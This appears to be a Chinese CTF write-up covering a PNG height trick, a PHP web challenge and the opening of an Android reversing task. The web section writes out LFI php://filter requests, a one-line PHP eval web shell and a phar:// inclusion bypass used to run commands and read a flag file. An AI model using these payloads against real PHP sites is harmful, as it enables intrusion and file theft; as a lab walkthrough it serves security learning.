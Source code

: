 ### 没有梦想 何以远方

远_______的方啊！

然而图片上没有flag，提取出了剩下的文件，看起来都是胡乱填充的辣鸡数据，确认没有更多信息之后，只好重新把注意力转回这张图片上了。

手动解压IDAT段可以发现，解压出来的字节数比这个800*400的文件该有的要多……然而附加数据没看出什么特别之处啊……那……难道也是图片数据？高度不对？把高度改大试试？

然后就发现flag啦。


## `200` `俳句自动打分系统`

容易发现url有形如`/index.php?page=[upload|view]`   
发现LFI，用php filter来获取源代码

```
/index.php?page=php://filter/read=convert.base64-encode/resource=index
/index.php?page=php://filter/read=convert.base64-encode/resource=main
/index.php?page=php://filter/read=convert.base64-encode/resource=view
/index.php?page=php://filter/read=convert.base64-encode/resource=upload
```

发现有upload\_paiju文件夹，还有index.php里有   

```
$inc=sprintf("%s.php", $p);
include($inc);
```

用%00无法截断".php"无法直接include .txt，于是用phar来绕过这个：   
制作一个名为1.txt的zip里面放a.php    
a.php: `<?php eval($_GET['cmd']);?>`
上传1.txt，用   
`/index.php?page=phar://upload_paiju/xxxxxxx.txt/a`
来成功include，然后是各种列目录：   
`/index.php?cmd=print_r(scandir('/tmp'));&page=phar://./upload_paiju/xxxxxxx.txt/a`

tmp目录，html目录(都是open\_basedir)都找遍也没发现flag，    
然后是队友发现藏在/srv(另外一open\_basedir下)，有个FLAG文件...    
那就`/index.php?cmd=print_r(file_get_contents('/srv/FLAG'));&page=phar://./upload_paiju/xxxxxxx.txt/a`得flag


## `400` `droidmaster`

### 初步观察

给了一个apk，说“运行不了的话说明你的手机不够新”，做安卓题的时候我从来没指望过我手机够新，以前是这样，现在大概也是。

看一看apk里包着的文件结构，会发现什么保护也没有，有用JNI调用native code，应该是在里面做的flag验证。

然后发现这.so的架构是arm64-v8a。难怪说手机不够新就运行不了。

### classes.dex

dex还是要看一下的，直接丢进JEB就可以了。逻辑十分简单，调用libcrackme.so中的load，传入了一个非常长的神秘字符串，然后点验证的时候把输入框里的文本传给libcrackme.so!verify。

